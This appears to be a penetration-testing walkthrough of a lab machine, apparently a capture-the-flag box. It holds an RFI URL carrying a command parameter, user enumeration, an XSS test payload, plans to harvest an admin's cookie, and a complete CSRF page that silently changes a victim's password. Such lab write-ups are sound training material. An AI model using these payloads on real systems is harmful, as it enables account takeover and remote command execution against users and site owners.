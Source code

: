 Looking at page source see popper.js.

```
searchsploit popper
```

Checking out 2351, mentions there is RFI with path:

- `http://10.10.10.97/SCRIPT_PATH/childwindow.inc.php?form=http://10.10.10.97?&cmd=id`

Tried using just `/` for script path, also `script`, `scripts` and `cgi_bin`. All failed.

Jumping back to try log in with `tyler`: gives different error message ("Password not valid", vs "Username not found")

- user enumeration possible

# xss redux

Going back to try injecting XSS with the new note after seeing the tags were in the source, but there was a typo.

This time it works!

Both title and body are vulnerable with `test<script>alert(1)</script>`

# contact page redux

Going back to contact page, instead of sending full script tag, sending just a link, we get a hit on the python web server listener.

Thinking through options:

- I have XSS, but if I send him to this page, it'll be using his creds so he may not see my xss payload to harvest his cookie
- I can try fingerprinting his browser to do a browser exploit
- I can see if the site is vulnerable to CSRF and maybe get him to change his password to something I know?

# CSRF attempt

To test CSRF, first create a second user:

- bubba:herpaderp

Craft malicious web page:

```html
<html>
  <script>
    let url = "http://10.10.10.97/change_pass.php";
    fetch(url, {
      method: "POST",
      mode: "no-cors",
      headers: {
        Origin: "http://10.10.10.97",
        Referer: "http://10.10.10.97/change_pass.php",
        "Content-Type": "application/x-www-form-urlencoded"
      },
      credentials: "include",
      body: "password=password&confirm_password=password&submit=submit",
    });
  </script>
</html>
```
